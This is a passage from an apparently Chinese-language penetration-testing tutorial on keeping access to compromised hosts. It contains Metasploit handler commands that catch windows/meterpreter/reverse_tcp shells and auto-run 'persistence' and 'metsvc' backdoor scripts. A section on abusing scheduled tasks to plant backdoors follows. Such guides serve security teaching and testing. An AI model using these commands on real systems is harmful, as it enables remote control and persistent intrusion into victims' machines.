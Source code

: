 > 现在已经找不到这个利用模块，参考：[https://github.com/khr0x40sh/metasploit-modules/blob/master/persistence/mof_ps_persist.rb](https://github.com/khr0x40sh/metasploit-modules/blob/master/persistence/mof_ps_persist.rb)

### <a class="reference-link" name="Autorunscript"></a>Autorunscript

获取shell的时候自动执行持续化脚本,可以被Autorunscript执行的命令目录在`metasploit/scripts/meterpreter`

```
# persistence
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.2.101
set LPORT 5555
set ExitOnSession false
set AutoRunScript persistence -r 192.168.2.101 -p 5556 -U -X -i 30
exploit

# metsvc
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.2.101
set LPORT 5555
set ExitOnSession false
set AutoRunScript metsvc -A
exploit
```



## 0x02 计划任务

无论是windows还是linux操作系统都提供计划任务功能，来实现定时或者周期性的执行一些指令。自然而然我们可以在计划任务中做手脚，埋后门。

### <a class="reference-link" name="windows"></a>windows
- 图形化工具：taskschd.msc
- 命令行工具：schtasks.exe
```
SCHTASKS /parameter [arguments]

描述:
    允许管理员创建、删除、查询、更改、运行和中止本地或远程系统上的计划任
    务。

参数列表:
    /Create         创建新计划任务。

    /Delete         删除计划任务。

    /Query          显示所有计划任务。

    /Change         更改计划任务属性。

    /Run            按需运行计划任务。

    /End            中止当前正在运行的计划任务。

    /ShowSid        显示与计划的任务名称相应的安全标识符。

    /?              显示此帮助消息。

Examples:
    SCHTASKS
    SCHTASKS /?
```